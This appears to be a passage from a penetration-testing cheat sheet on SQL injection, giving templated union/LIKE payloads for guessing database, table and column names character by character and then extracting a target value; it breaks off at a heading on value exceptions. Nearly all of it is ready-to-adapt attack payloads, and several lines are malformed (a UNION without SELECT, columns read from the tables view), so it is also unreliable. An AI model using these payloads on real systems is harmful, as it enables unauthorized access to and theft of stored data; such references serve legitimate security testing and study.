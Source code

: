 * Find database name by iteration

<pre class="language-sql" data-overflow="wrap" data-line-numbers><code class="lang-sql"><strong>$url/query?$column=$changedvalue' UNION SELECT $found where database() like '%';
</strong>#The value % will match anything true
$url/query?$column=$changedvalue' UNION SELECT $found where database() like 'a%'; #Try a
$url/query?$column=$changedvalue' UNION SELECT $found where database() like 'b%'; #Try b
#Repeat with every letter until found a value that gets true
$url/query?$column=$changedvalue' UNION SELECT $found where database() like '$lettera%';
#Make the same process for the next value
$url/query?$column=$changedvalue' UNION SELECT $found where database() LIKE '$letter$letter2a$%';
#Repeat until all DB names have been found
</code></pre>

{% hint style="info" %}
`$found` is the union value that has been caught in the previous step

`$letter` is the value that returns true in each iteration
{% endhint %}

***

* Find Table name by iteration

{% code overflow="wrap" lineNumbers="true" %}
```sql
$url/query?$column=$changedvalue' UNION $found FROM information_schema.tables WHERE table_schema = '$dbfound' and table_name LIKE 'a%';
#Repeat until found all table names
```
{% endcode %}

***

* Find column by iteration

{% code overflow="wrap" lineNumbers="true" %}
```sql
$url/query?$column=$changedvalue' UNION $found FROM information_schema.tables WHERE table_schema = '$dbfound' and table_name = 'table' and column_name LIKE 'a%';
#Make an iterative process to find the column name
```
{% endcode %}

***

* Find objective value

{% code overflow="wrap" lineNumbers="true" %}
```sql
$url/query?$column=$changedvalue' FROM $table_found WHERE %column_found LIKE 'a%';
#Make an iterative process to find the value needed
```
{% endcode %}

***

* &#x20;Handle of value exceptions
